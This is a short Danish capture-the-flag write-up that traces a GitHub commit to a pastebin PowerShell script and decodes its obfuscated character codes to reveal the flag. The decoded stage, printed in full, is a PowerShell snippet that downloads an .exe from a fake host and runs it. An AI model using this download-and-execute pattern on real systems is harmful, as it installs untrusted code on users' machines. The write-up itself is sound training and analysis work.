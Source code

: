 1. Googler "N1ss3b4nd3n"
2. Finder GitHub: https://github.com/N1ss3b4nd3n/N1ss3b4nd3n
3. kigger i commits på README.md
4. Commit [48fb3b4](https://github.com/N1ss3b4nd3n/N1ss3b4nd3n/commit/48fb3b4b295eb7486289e21efa8dbe84fecabe31) har dette pastebin link: https://pastebin.com/raw/CiZTV3BA
5. Downloader pastebin siden som PowerShell .ps1 fil og
erstatter `Invoke-Expression -Command ([System.Text.Encoding]::UTF8.GetString($script))`
med `echo [System.Text.Encoding]::UTF8.GetString($script)`

6. Så får jeg en lang liste af tal som jeg gemmer som "chars.txt"
7. Jeg skriver app.py (Python) hvor jeg looper gennem alle tal'ne fra "chars.txt" og
bruger Pythons "chr()" function til at lave tal'ne om til bogstaver fordi de matcher unicodes.

8. app.py printer dette ud:
```ps1
$fileUrl = "http://321.123.f4k3.1337/megetfarligfil.exe&token=NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}"
$client = New-Object System.Net.WebClient
$client.DownloadFile($fileUrl, (Get-Location).Path + "\download.exe")
Start-Process (Get-Location).Path + "\download.exe"
```
i "$fileUrl" kan man se at GET parameteret "token" indenholder flaget -> "NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}"

Flag: `NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}`